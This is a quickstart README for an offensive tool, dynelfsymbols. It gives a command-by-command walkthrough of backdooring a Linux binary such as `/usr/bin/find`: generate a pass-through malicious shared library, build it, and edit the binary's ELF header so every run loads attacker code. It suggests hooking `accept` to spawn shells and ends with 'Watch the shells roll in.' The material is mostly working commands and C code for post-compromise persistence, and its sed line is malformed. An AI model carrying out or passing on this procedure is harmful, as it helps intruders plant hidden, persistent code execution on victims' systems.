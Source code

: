 Quickstart
==========
A command-by-command, easy-button walkthrough.

1. Build the tool
-----------------
```bash
go get -u github.com/magisterquis/dynelfsymbols
GOOS=linux go build -o ./dynelfsymbols github.com/magisterquis/dynelfsymbols/dynelfsymbols
```
This should probably be done on the attack box, and not on-target.  Move the
resulting binary to the target.

2. Find a good candidate for backdooring
----------------------------------------
Choose a directory with lots of potential.  Good binaries should link to a
library with only a few imported symbols and be called as often as the
malicious code should be run.  `/bin` is a good choice, as is `/usr/bin`.  If
there's custom software runnnig, wherever that is is a good choice, as well.

```
$ ./dynelfsymbols /usr/bin
File                                         Count  Libraries
----                                         -----  ---------
...snip...
/usr/bin/find                                1      libm.so.6
...snip
```
Here we get a list of ELF Files, as well as the library from which is imported
the fewest symbols and the number of symbols imported from that library.

`/bin/find` looks good.  It only imports one function from `libm`, and there
isn't likely to be side-effects since `libm` is a math library.

3. Find the library to backdoor
-------------------------------
Now that we've got a nice binary in mind, look at the symbols it imports from
each library to which it links.
```bash
$ ./dynelfsymbols /usr/bin/find
Library    Symbol                  Version
-------    ------                  -------
libm.so.6  modf                    GLIBC_2.2.5
...snip...
```
The function `modf` is imported from `libm.so.6` with version `GLIBC_2.2.5`.
Sometime the same number of symbols are imported from multiple libraries, in
which case it's probably best to choose the one least likely to be used or the
one for which documentation is easiest to find.

4. Generate malicious library source
------------------------------------
Now that we've got the real library to replace (`libm.so.6`), we need to
generate our own malicious library.  We'll choose a name that's likely to not
be too conspicuous.

```bash
./dynelfsymbols -c libm.so.6 /usr/bin/find > libM.c
```
There is a small file that needs to be made to give the right version strings
to the exported functions.  This is in a comment in the source code and should
be extracted.

```bash
perl -ne 'print$1if/^VERSIONSCRIPT (.*)/s' ./libM.c > ./vs
```

Take a moment to read through the generated source.

5. Fill in function definitions
-------------------------------
Before the malicious library can be built, the prototypes and definitions of
the exported functions need to have return types and arguments added.

The following lines of the C source need to be changed
```c
/* Exported function prototypes */
TYPE_CHANGEME modf(ARGS_CHANGEME);

/* Pointers to real functions */
static TYPE_CHANGEME (*modf_real)(ARGS_CHANGEME) = NULL;

/* Exported functions which call real functions */
TYPE_CHANGEME modf(ARGS_CHANGEME) {return modf_real(ARGS_CHANGEME);}
```

Types and arguments for the functions are typically in a manpage or a quick
Google search away.  In this case `man modf` gives us what we need to know.

After changing the prototypes and definitions, we get
```c
/* Exported function prototypes */
double modf(double x, double *iptr);

/* Pointers to real functions */
static double (*modf_real)(double x, double *iptr) = NULL;

/* Exported functions which call real functions */
double modf(double x, double *iptr) {return modf_real(x, iptr);}
```

After changing the necessary bits, code should be added to the contstructor
function `con` or another appropriate place in the library to do something
devious.  One possibility is intercepting a function like `accept(4)` to spawn
a shell if the remote end has the right address.  This is left as an exercise
for the reader.

6. Build library
----------------
At the bottom of the source is a generic command which can be used to build
the library.  The filenames will need to be changed, of course.
```bash
cc -O2 -shared -fPIC -Wl,--version-script=vs -o libM.so.6 libM.c -ldl
```
If all goes well, no output will be printed.

7. Backdoor binary
------------------
Put the library somewhere predictable, like `/lib`.

Edit the binary to replace `libm.so.6` in the elf header with `libM.so.6`.  It
should be near the top of the file, nearby other library and function names.

In vim, this looks like changing
```plaintext
@libselinux.so.1^@_ITM_deregisterTMCloneTable^@__gmon_start__^@_Jv_RegisterClas
ses^@_ITM_registerTMCloneTable^@_init^@is_selinux_enabled^@fgetfilecon^@freecon
^@lgetfilecon^@lsetfilecon^@_fini^@libm.so.6^@modf^@libc.so.6^@__stpcpy_chk^@ff
lush^@strcpy^@__printf_chk^@re_set_syntax^@fnmatch^@readdir^@sprintf^@_IO_putc^
@setlocale^@mbrtowc^@fopen^@strncmp^@strrchr^@re_match^@readlinkat^@__strdup^@r
pmatch^@dcgettext^@getpwuid^@unlinkat^@closedir^@fchdir^@getgrgid^@signal^@strn
cpy^@fork^@__stack_chk_fail^@__lxstat^@putchar^@iswprint^@realloc^@fstatfs^@abo
rt^@stdin^@_exit^@memchr^@strpbrk^@memrchr^@strspn^@program_invocation_name^@st
rftime^@__assert_fail^@localtime_r^@strtod^@__ctype_get_mb_cur_max^@endpwent^@s
trtol^@fts_close^@isatty^
```
to
```plaintext
@libselinux.so.1^@_ITM_deregisterTMCloneTable^@__gmon_start__^@_Jv_RegisterClas
ses^@_ITM_registerTMCloneTable^@_init^@is_selinux_enabled^@fgetfilecon^@freecon
^@lgetfilecon^@lsetfilecon^@_fini^@libM.so.6^@modf^@libc.so.6^@__stpcpy_chk^@ff
lush^@strcpy^@__printf_chk^@re_set_syntax^@fnmatch^@readdir^@sprintf^@_IO_putc^
@setlocale^@mbrtowc^@fopen^@strncmp^@strrchr^@re_match^@readlinkat^@__strdup^@r
pmatch^@dcgettext^@getpwuid^@unlinkat^@closedir^@fchdir^@getgrgid^@signal^@strn
cpy^@fork^@__stack_chk_fail^@__lxstat^@putchar^@iswprint^@realloc^@fstatfs^@abo
rt^@stdin^@_exit^@memchr^@strpbrk^@memrchr^@strspn^@program_invocation_name^@st
rftime^@__assert_fail^@localtime_r^@strtod^@__ctype_get_mb_cur_max^@endpwent^@s
trtol^@fts_close^@isatty^
```

It should also be possible to use sed to do the same thing, but there is the
risk that the wrong string will be changed.
```bash
sed -i '/libm\.so\.6/libM\.so\.6'
```

8.  That's it!
--------------
Now, any time someone calls `find(1)`, whatever malicious code you added to
libM will be run.  Watch the shells roll in.
